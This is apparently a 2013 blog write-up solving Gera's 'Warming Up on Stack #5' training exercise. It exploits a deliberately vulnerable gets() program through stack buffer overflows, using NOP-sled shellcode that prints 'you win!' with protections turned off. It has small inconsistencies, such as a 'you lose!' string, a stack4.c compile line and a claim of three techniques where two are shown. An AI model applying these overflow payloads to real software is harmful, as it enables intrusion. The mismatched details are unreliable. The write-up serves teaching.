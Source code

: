 Gera's Warming Up on Stack #5 - Solutions
=========================================
date: 05/Jan/2013
summary: Solutions for Gera's Warming up on Stack #5 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 5 in the series of posts I started back in August
2012 with an aim to provide an analysis and possible solutions for the
vulnerable programs provided by
[Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte)
at his [Insecure
Programming](http://community.corest.com/%7Egera/InsecureProgramming/)
by example page.

This post follows the [Gera's Warming Up on Stack #4 -
Solutions](/2013/geras-wuos-stack4-solutions.html) post and if you have
not read it, I request you to please do so. Most of the concepts are
very similar and since they have been already talked about, I'll not be
reiterating them here.

Let's get started. Below is the source for the vulnerable
[stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html)
program:

```c
/* stack5.c                                     *
 * specially crafted to feed your brain by gera */
int main() {
    int cookie;
    char buf[80];
    printf(*buf: %08x cookie: %08x\n*, &buf, &cookie);
    gets(buf);
    if (cookie == 0x000a0d00)
        printf(*you lose!\n*);
}
```

The above program too accepts user-input through the gets function and
then looks for a specific value in a local variable named `cookie`. If
this value is equal to a certain pre-defined constant, `printf` function
is used to show a `you win!` message to the user. There is no direct
means of modifying the content of the `cookie` variable. The `gets`
function will keep reading from the stdin device until it encounters a
newline or EoF character. Since this reading loop fails to honor the
size of the destination buffer, a classic buffer overflow vulnerability
is introduced in the program. Our aim is to leverage this vulnerability
and exploit this program so that it print the `you win!` message to
stdout.

Here are a few observations that could be made by looking at the source
of the program:

1.  Since it is defined prior to `buf`, the `cookie` would be placed at
    a higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents
4.  Interestingly, the `you win!` statement is missing from this
    example. As such, gaining control over `cookie` or EIP alone won't
    help with the completion of this example.

Stack layout for
[stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html)
is identical to
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
as already outlined in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post.

Here are a few solutions I could think of to get the `you win!` message
printed:

-   Solution #1: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```bash
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Inject a NOP-prefixed printf(you win!) shellcode and overwrite EIP with its address
-------------------------------------------------------------------------------------------------

Here's the GCC commandline to prepare
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
for Solution #1:

```bash
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack5 stack5.c 2>/dev/null ; readelf -l stack5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to
exploit
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post could be reused
here:

```bash
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# perl -e 'print *\x90*x51 . *\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21* . *\xc4\xf4\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!#
```

Solution #2: Inject a NOP-prefixed printf(you win!) shellcode through an environment var and overwrite EIP with its address
----------------------------------------------------------------------------------------------------------------------------

Lets get straight to the exploitation:

```bash
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack5
[+] WINCODE: 0xbffff726
#
# perl -e 'print *\x90*x88 . *\x26\xf7\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!
```

So, we have now successfully exploited the
[stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html)
program through three different techniques. Depending on the motive of
your exploitation attempt, other techniques could be devised and some,
mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They
just serve the purpose of understanding how exploits used to work before
mitigation features were introduced in modern systems. But, as with
everything else, understanding basics is really important. As mitigation
features mature, exploitation techniques become increasingly complex.
And to understand those, we need to build upon the solid foundation of
basic concepts, like those discussed on this and other blogs.

This was the last post in the *Geras' Warming Up on Stack* series. I
plan to start another series for *Gera's Advanced Buffer Overflows*
examples. Stay tuned for further updates.
